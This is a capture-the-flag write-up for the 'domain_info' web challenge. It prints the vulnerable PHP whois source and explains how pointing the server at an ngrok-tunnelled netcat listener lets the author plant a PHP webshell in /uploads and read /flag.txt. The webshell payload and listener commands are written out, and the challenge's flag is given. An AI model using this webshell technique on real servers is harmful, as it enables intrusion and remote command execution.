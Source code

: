 # domain_info

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Our team found an suspicious server which allows dns queries, find out how to exploit it. Ngrok could be helpful! Flag is : `/flag.txt`

#### Author: skyv3il

#### Files: [challenge.zip](https://github.com/emperorpenguincat/Public-Writeups/blob/main/UniVsThreats%20CTF%202025/domain_info/challenge.zip)

#### Preview:
![image](https://github.com/user-attachments/assets/dc750e76-388a-4a5b-b5c9-af43c96b95ff)

## Solution
<details>

The web-based challenge gave us a PHP source code and a webpage that had similar features to a WHOIS website. Firstly, we use simple queries to test out the web response to understand its behaviour.

![image](https://github.com/user-attachments/assets/7a2594fa-fe26-4256-9c65-0fc537586de7)

As we can see, a randomly generated filename containing the query response is kept in the `/uploads/` directory, and the website allows us to specify any file type extension we want to.

![image](https://github.com/user-attachments/assets/4003346f-4e69-40c1-afbf-4b83d0678f85)

However, the file's response has no relevant information, so let's examine the source code to identify the website's potential vulnerabilities.

### Source Code (PHP)

```php
<?php
function cleanUploads($path, $minutes = 2) {
    foreach (glob($path . "/*") as $file) {
        if (is_file($file) && (time() - filemtime($file)) > ($minutes * 60)) {
            unlink($file);
        }
    }
}

function randomString($length = 6) {
    return substr(str_shuffle("abcdefghijklmnopqrstuvwxyz0123456789"), 0, $length);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $host = $_POST['host'];
    $port = $_POST['port'];
    $query = $_POST['query'];
    $savefile = $_POST['savefile'];

    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }

    // Extra simple validation
    if (!filter_var($host, FILTER_VALIDATE_IP) && !filter_var($host, FILTER_VALIDATE_DOMAIN)) {
        die("<p style='color:red;'>❌ Invalid Hostname</p>");
    }

    // Safe escaping
    $host = escapeshellarg($host);
    $port = escapeshellarg($port);
    $query = escapeshellarg($query);

    // Create uploads folder if not exists
    $uploadDir = __DIR__ . '/uploads';
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0755, true);
    }

    // Cleanup old files
    cleanUploads($uploadDir, 2); // Delete files older than 2 minutes

    // Randomize file name
    if (empty($savefile)) {
        $savefile = "output.txt";
    }
    $randomPrefix = randomString();
    $finalName = $randomPrefix . "_" . basename($savefile);
    $savepath = $uploadDir . '/' . $finalName;

    // Execute
    $command = "whois -h " . $host . " -p " . $port . " " . $query  . " >  " . escapeshellarg($savepath);
    system($command);
    echo "Command: <pre>" . htmlspecialchars($command) . "</pre>";
    echo "<h2>✅ Whois Executed. Saved in:</h2>";
    echo "<pre>/uploads/" . htmlspecialchars($finalName) . "</pre>";
    echo "<p><a style='color:#00ffea;' href='/uploads/" . htmlspecialchars($finalName) . "' target='_blank'>Click here to view your file</a></p>";
}
?>
```

Based on the provided source code, we can observed that it prevents simple command injection by blacklisting shell characters using `preg_match()` and `escapeshellarg()` function to execute shell commands securely so direct command injection will be difficult. It also uses `filter_var()` to validate the host and variable `$command` where the query will be executed inside the `system()` function. Since the website accepts host and port, we can establish a simple reverse shell like this: 

#### Set up a ngrok TCP tunnel

*Note: To create TCP tunneling using ngrok, it is required to fill credit card info into your account but don't worry. It is still free.*

`ngrok tcp 1337`

Then, the ngrok application will assign us a random host IP address and port to which we can connect later.

#### Set up a netcat listener

`nc -lvnp 1337`

Before submitting the request, we need to configure the listener so that when the victim executes the query, it connects to our host.

#### Fill up the host and port provided by ngrok

We can send the request after completing the form, which looks like this. Ensure the file type is a `.php` so that the php webshell which will be injected later on can be recognized.

![image](https://github.com/user-attachments/assets/965a1089-0260-4c5d-b0c5-08125f58bb59)

When the request has been sent, the netcat connection will be established. We can see that string "test" were displayed which we specified earlier indicates that the connection is successful. 

![image](https://github.com/user-attachments/assets/231f603d-5fb5-4bbb-8fa6-a1b2c6e1341d)

Then, we can inject a simple PHP webshell: `<?php system($_GET['cmd'];)?>`. The webshell will allow us to use UNIX commands on the cmd parameter.

![image](https://github.com/user-attachments/assets/42a50d9d-df3e-4a2b-8ed9-cca4358eb3a0)

After successfully injected the webshell, we can access the file to view the output.

![image](https://github.com/user-attachments/assets/7d7d94fc-3833-4aec-a8c4-c692e2a4a324)

The php script's output indicated an error regarding the null argument because we did not specify any commands in the `?cmd` parameter.  This indicates that the command was successfully injected.

![image](https://github.com/user-attachments/assets/d31e6ea9-1e77-40e4-878a-14a1b37dbbb1)

We may now use UNIX commands in the `?cmd` argument and directory listing command such as `ls` to display the files on the server.  Although the challenge stated that the flag is stored in `/flag.txt`, employing this approach may provide greater flexibility and efficiency for future challenges in which the filename or path is not specified.

![image](https://github.com/user-attachments/assets/a08d6ed9-c5e4-4217-8a89-6f9b90c4068f)

Then, for the next steps, we can simply access the `/flag.txt` file to acquire the flag for the challenge.

![image](https://github.com/user-attachments/assets/bcf6fbc3-7431-45d7-a3c1-dca89b564344)

#### Flag
> UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}

</details>
